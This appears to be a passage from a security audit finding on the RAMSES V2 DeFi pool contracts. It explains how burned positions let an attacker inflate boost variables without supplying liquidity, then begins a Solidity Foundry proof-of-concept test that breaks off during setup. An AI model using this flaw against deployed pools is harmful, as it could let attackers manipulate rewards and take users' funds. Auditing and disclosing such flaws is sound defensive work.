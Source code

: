 However, when a position is burned, the [tokens continue to accrue to the pool](https://github.com/RamsesExchange/RAMSES-Contracts/blob/9f661f89c925413da6b3433141b0e4d67bdba5b1/contracts/v2/RamsesV2Pool.sol#L868) until [`collect()`](https://github.com/RamsesExchange/RAMSES-Contracts/blob/9f661f89c925413da6b3433141b0e4d67bdba5b1/contracts/v2/RamsesV2Pool.sol#L769) is called by the burner. This means that even though the tokens may be allocated to the burner, and they can retrieve them at any time, they continue to contribute to the `boostedLiquidityCap`, `veRamBoostAvailable`, and `positionBoostUsedRatio` variables when positions are updated. This means that `boostedLiquidityCap` and `veRamBoostAvailable` can be inflated, and `positionBoostUsedRatio` deflated, to any value an attacker would like without supplying additional liquidity.

See this POC illustrating the point in code:

```solidity
contract AttachTest is Test {

    RamsesV2Pool _pool;
    RamsesV2Factory _factory;
    MockVoter _voter;
    MockNFPManager _nfpManager;
    MockVotingEscrow _veRam;
    MockERC20 _token0;
    MockERC20 _token1;


    function setUp() public {
        _pool = new RamsesV2Pool();
        _factory = new RamsesV2Factory();
        _voter = new MockVoter();
        _nfpManager = new MockNFPManager();
        _veRam = new MockVotingEscrow();
        _token0 = new MockERC20("0", "token_0", 18);
        _token1 = new MockERC20("1", "token_1", 18);

        deal(address(_token0), address(this), type(uint256).max);
        deal(address(_token1), address(this), type(uint256).max);

        vm.label(address(_pool), "_pool");
        vm.label(address(_token0), "_token0");
        vm.label(address(_token1), "_token1");
        vm.label(address(_factory), "_factory");
        vm.label(address(_veRam), "veRam");
        vm.label(address(_nfpManager), "_nfpManager");
        vm.label(address(_voter), "_voter");

        _factory.initialize(address(_nfpManager), address(_veRam), address(_voter), address(0));
        _pool.initialize(address(_factory), address(_nfpManager), address(_veRam), address(_voter), address(_token0), address(_token1), 10_000, 200);
        _pool.initialize(393495975901102234655829);
    }

    function tickSpacingToMaxLiquidityPerTick(int24 tickSpacing) public pure returns (uint128) {
        int24 minTick = (TickMath.MIN_TICK / tickSpacing) * tickSpacing;
        int24 maxTick = (TickMath.MAX_TICK / tickSpacing) * tickSpacing;
        uint24 numTicks = uint24((maxTick - minTick) / tickSpacing) + 1;
        return type(uint128).max / numTicks;
    }

    function testBurnAndMint() public {
        uint256 period = block.timestamp / (1 weeks);
        (
            uint160 sqrtPriceX96,
            int24 tick,
            uint16 observationIndex,
            uint16 observationCardinality,
            uint16 observationCardinalityNext,
```